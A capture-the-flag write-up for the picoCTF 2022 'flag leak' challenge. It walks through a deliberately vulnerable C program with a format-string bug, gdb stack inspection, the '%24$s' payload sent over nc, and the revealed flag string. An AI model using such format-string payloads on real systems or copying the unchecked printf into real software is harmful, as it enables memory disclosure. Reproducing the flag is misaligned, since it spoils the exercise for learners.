

# flag leak - picoCTF 2022 - CMU Cybersecurity Competition
Binary Exploitation, 300 Points

## Description


 
## flag leak Solution

Let's observe the attached file [vuln.c](./vuln.c):
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}
```

Let's run ```checksec``` on the attached file [vuln](./vuln):
```console
┌─[evyatar@parrot]─[/pictoctf2022/binary_exploitation/flag_leak]
└──╼ $ checksec vuln
[*] '/pictoctf2022/binary_exploitation/flag_leak/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

We can see no [PIE](https://ir0nstone.gitbook.io/notes/types/stack/pie) enable.

As we can see, we have a [format-string-vulnerability](https://resources.infosecinstitute.com/topic/how-to-exploit-format-string-vulnerabilities/) on ```vuln``` function by calling to ```printf(story)```, Using that we can leak the string of the flag from the stack.

First, Let's find what is the location on stack of ```flag``` buffer using ```gdb```:
```console
gef➤  disassemble vuln 
Dump of assembler code for function vuln:
   0x08049333 <+0>:	endbr32 
   0x08049337 <+4>:	push   ebp
   0x08049338 <+5>:	mov    ebp,esp
   0x0804933a <+7>:	push   ebx
   0x0804933b <+8>:	sub    esp,0xc4
   0x08049341 <+14>:	call   0x80491f0 <__x86.get_pc_thunk.bx>
   0x08049346 <+19>:	add    ebx,0x2cba
   0x0804934c <+25>:	sub    esp,0x8
   0x0804934f <+28>:	push   0x40
   0x08049351 <+30>:	lea    eax,[ebp-0x48]
   0x08049354 <+33>:	push   eax
   0x08049355 <+34>:	call   0x80492b6 <readflag>
   0x0804935a <+39>:	add    esp,0x10
   0x0804935d <+42>:	sub    esp,0xc
   0x08049360 <+45>:	lea    eax,[ebx-0x1f9c]
   0x08049366 <+51>:	push   eax
   0x08049367 <+52>:	call   0x80490f0 <printf@plt>
   0x0804936c <+57>:	add    esp,0x10
   0x0804936f <+60>:	sub    esp,0x8
   0x08049372 <+63>:	lea    eax,[ebp-0xc8]
   0x08049378 <+69>:	push   eax
   0x08049379 <+70>:	lea    eax,[ebx-0x1f6d]
   0x0804937f <+76>:	push   eax
   0x08049380 <+77>:	call   0x8049180 <__isoc99_scanf@plt>
   0x08049385 <+82>:	add    esp,0x10
   0x08049388 <+85>:	sub    esp,0xc
   0x0804938b <+88>:	lea    eax,[ebx-0x1f67]
   0x08049391 <+94>:	push   eax
   0x08049392 <+95>:	call   0x8049120 <puts@plt>
   0x08049397 <+100>:	add    esp,0x10
   0x0804939a <+103>:	sub    esp,0xc
   0x0804939d <+106>:	lea    eax,[ebp-0xc8]
   0x080493a3 <+112>:	push   eax
=> 0x080493a4 <+113>:	call   0x80490f0 <printf@plt>
   0x080493a9 <+118>:	add    esp,0x10
   0x080493ac <+121>:	sub    esp,0xc
   0x080493af <+124>:	push   0xa
   0x080493b1 <+126>:	call   0x8049170 <putchar@plt>
   0x080493b6 <+131>:	add    esp,0x10
   0x080493b9 <+134>:	nop
   0x080493ba <+135>:	mov    ebx,DWORD PTR [ebp-0x4]
   0x080493bd <+138>:	leave  
   0x080493be <+139>:	ret    
End of assembler dump.
gef➤  b *0x0804935a
Breakpoint 2 at 0x804935a
gef➤  r

```

We set a breakpoint right after ```readflag``` function, Let's see the stack at this point:
```console
gef➤  r
Starting program: /pictoctf2022/binary_exploitation/flag_leak/vuln 

Breakpoint 2, 0x0804935a in vuln ()

─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffcfa0│+0x0000: 0xffffd030  →  "sdfs\n"	 ← $esp
0xffffcfa4│+0x0004: 0x00000040 ("@"?)
0xffffcfa8│+0x0008: 0xf7dc78e8  →  0x00000000
0xffffcfac│+0x000c: 0x08049346  →  <vuln+19> add ebx, 0x2cba
0xffffcfb0│+0x0010: 0xf7dd0ee8  →  0x00002ed0
0xffffcfb4│+0x0014: 0xffffffff
0xffffcfb8│+0x0018: 0xffffcfe0  →  0xf7fa5d20  →  0xfbad2087
0xffffcfbc│+0x001c: 0xf7dcc8a8  →  0x00002f07

```

We can see that we need to leak the 24th place on the stack, We can do it using ```%24$s``` payload:
```console
┌─[evyatar@parrot]─[/pictoctf2022/binary_exploitation/flag_leak]
└──╼ $ nc saturn.picoctf.net 58009
Tell me a story and then I'll tell you one >> %24$s
Here's a story - 
picoCTF{L34k1ng_Fl4g_0ff_St4ck_eb9b46a2}

```

And we get the flag ```picoCTF{L34k1ng_Fl4g_0ff_St4ck_eb9b46a2}```